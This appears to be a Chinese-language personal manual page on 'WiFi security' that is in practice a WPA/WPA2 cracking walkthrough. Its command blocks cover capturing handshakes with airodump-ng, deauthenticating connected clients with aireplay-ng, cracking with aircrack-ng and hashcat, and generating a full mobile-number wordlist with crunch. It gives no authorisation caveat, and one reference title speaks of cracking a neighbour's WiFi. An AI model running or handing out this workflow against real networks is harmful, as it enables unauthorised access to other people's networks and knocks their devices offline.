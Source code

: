 ```yaml
---
title: WiFi 安全
date: 2021-01-01 22:36:35
permalink: /pages/624ab1/
categories: 
  - manual
article: true
tags: 
  - 
---
```

# WiFi 安全

参考：

- [【Aircrack】Kali linux 下使用 Aircrack-ng 对于 wifi 暴力破解的使用教程](https://freeerror.org/d/161-kali-linux-aircrack-ng-wifi)
- [【Aircrack】Kali Linux使用Aircrack破解wifi密码(wpa_wpa2) - 罗道义 - 博客园](https://www.cnblogs.com/daoyi/p/Kali-Linux-shi-yongAircrack-po-jiewifi-mi-ma-wpawp.html)
- [【Aircrack】Kali破解wifi最基础版_运维_河南理工杨轻帆的博客-CSDN博客](https://blog.csdn.net/tangjikede2008/article/details/99758890)
- [【Aircrack】airodump-ng帮助手册翻译 - lim42 - 博客园](https://www.cnblogs.com/lim42/p/6887905.html)
- [【Crunch】Linux下的字典生成工具Crunch，创造自己的专属字典 - FreeBuf互联网安全新媒体平台](https://www.freebuf.com/sectool/170817.html)
- [【Crunch】crunch--字典生成工具 - wpjamer - 博客园](https://www.cnblogs.com/wpjamer/p/9913380.html)
- [【Crunch】crunch生成手机号 发个教程 55G吓人啊 - mljqqh - 博客园](https://www.cnblogs.com/mljqqh/p/10344507.html)
- [【Hashcat】cracking_wpawpa2 [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
- [【Hashcat】frequently_asked_questions [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#overview)
- [【Hashcat】hashcat暴力破解密码 _ 忆杰的博客](https://www.joenchen.com/archives/1248)
- [【Hashcat】使用Hashcat跑Wifi密码 _ ohhink](https://ouhaohan8023.github.io/2019/08/22/Artisans/使用Hashcat跑Wifi密码/)
- [【Hashcat】用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码 - 方方和圆圆 - 博客园](https://www.cnblogs.com/diligenceday/p/6359661.html)
- [【钓鱼】Hacking any WPA_WPA2 PSK without BruteForce - 简书](https://www.jianshu.com/p/2a19a8e5aee7)
- [隐藏wifi ssid获取 - 简书](https://www.jianshu.com/p/a86ae4ed102d)

## airmon-ng, airodump-ng, aireplay-ng, aircrack-ng 工具的使用

```sh
# 查看支持的网卡
airmon-ng

# 将网卡切换成监听模式
# wlan0 是网卡名称，开启后会在后面加上mon
airmon-ng start wlan0

# 扫描无线列表
airodump-ng wlan0mon

# 查看指定 BSSID 的详情
airodump-ng -d 08:1F:71:xx:xx:xx wlan0mon

# 抓握手包，在这里面包含加密的密码
airodump-ng -c 1 --bssid 08:1F:71:xx:xx:xx -w ~/wifi/ wlan0mon

# 攻击连接上该热点的客户端，让其掉线重连，以获取握手包
aireplay-ng -0 20 -a 08:1F:71:xx:xx:xx -c 04:33:85:xx:xx:xx wlan0mon

# 停止监听模式
airmon-ng stop wlan0mon

# 跑字典获取密码
aircrack-ng -a2 -b 08:1F:71:xx:xx:xx -w ~/baoli/rockyou.txt ~/wifi/*.cap 
```

## 使用 Hashcat 快速跑字典

Hashcat for windows: [hashcat-5.1.0.7z](https://hashcat.net/files/hashcat-5.1.0.7z) [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases)

```
# 转换 cap 为 hccapx
cap2hccapx.exe 01.cap 01.hccapx

# 用 Hashcat 跑字典，支持 GPU 加速，其中指定 session 可以保存日志或进度
hashcat64.exe -m 2500 D:\test\01.hccapx D:\zd\word.txt  --session=whypie0
```

## 使用 Chrunch 生成任意字典

生成手机号，新建一个 `num.txt` 文件，内容为：

```
numeric = [345789]
```

然后让其生成，最后文件非常大，有 `72.6 GB`！：

```
crunch 11 11 -f ./num.txt numeric -t 1@%%%%%%%%% -o allPhones.txt
```
